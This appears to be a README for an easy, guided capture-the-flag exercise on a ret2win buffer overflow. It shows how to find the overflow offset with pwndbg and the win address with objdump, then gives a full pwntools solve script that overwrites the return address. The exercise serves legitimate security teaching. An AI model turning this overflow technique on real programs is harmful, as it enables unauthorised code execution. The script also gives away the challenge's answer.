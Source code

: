 # Challenge Name
kidr2w

## Learning Objective
Extended from BOF. Learn to find and rewrite return address to another function

## Description 
We want to win! But... how to win?

## Difficulty:
Guided (easy)

## Guide
In the code, 
1. `enlightenment` function has a vulnerable `gets` function.
2. `hiddenBlessing` function contains the flag.

We want to perform ret2win in this case.

#### What we need to do:
1. Find the exact offset before it overflows
2. Find return address of `hiddenBlessing` address

#### To find the offset needed:
1. use `cyclic 200` in pwndbg (this generates the de bruijin sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `raaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address.

```shell
pwndbg> cyclic -l raaaaaaa
Finding cyclic pattern of 8 bytes: b'raaaaaaa' (hex: 0x7261616161616161)
Found at offset 136
```

#### To find the win address:
```shell
$> objdump -d chall | grep hiddenBlessing
00000000004006d7 <hiddenBlessing>:
...
```

#### How do we place inputs for the options then?
You can do the following so that it sends what you want after the binary output:
```python
input = b"abc\n"
p.sendafter("binary output", input)
```

With that knowledge, we can put our solve script together!

#### Final Solution
```python
from pwn import *

# local solve
p = process("./kid_R2W_bin")
context.binary = "./kid_R2W_bin"

# remote solve
# p = remote (server, port)

# hiddenBlessing function
win = p64(0x4006d7) + b'\n'

# Choose option first to enlightenment function
option = b'2\n'
p.sendlineafter("purpose: \n", option)


# send payload after sendting option
payload = b'A' * 136  
payload += win        
p.sendafter("know? \n", payload)

p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. which part of the code has a vulnerable C function?
2. check out sendafter: https://gist.github.com/zafirr31/bc37cacae5540d865de164f9ea16b679

## Attached Files
- chall.c
- chall

## Resources
- https://ir0nstone.gitbook.io/notes/binexp/stack/ret2win
- https://gist.github.com/zafirr31/bc37cacae5540d865de164f9ea16b679
- https://docs.pwntools.com/en/dev/tubes.html


## Flag
TBD